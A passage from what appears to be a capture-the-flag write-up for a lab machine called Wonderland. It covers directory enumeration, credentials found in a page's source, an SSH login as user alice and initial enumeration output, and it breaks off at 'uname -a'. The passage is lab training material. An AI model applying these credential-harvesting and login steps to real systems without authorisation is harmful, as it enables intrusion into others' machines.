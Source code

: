 ```bash
http://10.10.40.120/r (Status: 301)
```

We can see where this is going. Each subsiquent directory contains more of the dialogue until we get to ```http://10.10.40.120/r/a/b/b/i/t/```.

![secondpage](https://i.imgur.com/fZWakQr.png)

Looking immediately at the source we seem what could be some credentials


<details><summary>Alice Credentials</summary></details>



 We can try this with the SSH service that is running

```bash
ssh alice@10.10.40.120

...

Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Feb 21 14:07:50 UTC 2021

  System load:  0.0                Processes:           85
  Usage of /:   18.9% of 19.56GB   Users logged in:     0
  Memory usage: 14%                IP address for eth0: 10.10.40.120
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$ 

```

It worked!


```bash

$id
uid=1001(alice) gid=1001(alice) groups=1001(alice)

$ls -la
total 40
drwxr-xr-x 5 alice alice 4096 May 25  2020 .
drwxr-xr-x 6 root  root  4096 May 25  2020 ..
lrwxrwxrwx 1 root  root     9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 May 25  2020 .bash_logout
-rw-r--r-- 1 alice alice 3771 May 25  2020 .bashrc
drwx------ 2 alice alice 4096 May 25  2020 .cache
drwx------ 3 alice alice 4096 May 25  2020 .gnupg
drwxrwxr-x 3 alice alice 4096 May 25  2020 .local
-rw-r--r-- 1 alice alice  807 May 25  2020 .profile
-rw------- 1 root  root    66 May 25  2020 root.txt
-rw-r--r-- 1 root  root  3577 May 25  2020 walrus_and_the_carpenter.py

$ uname -a
```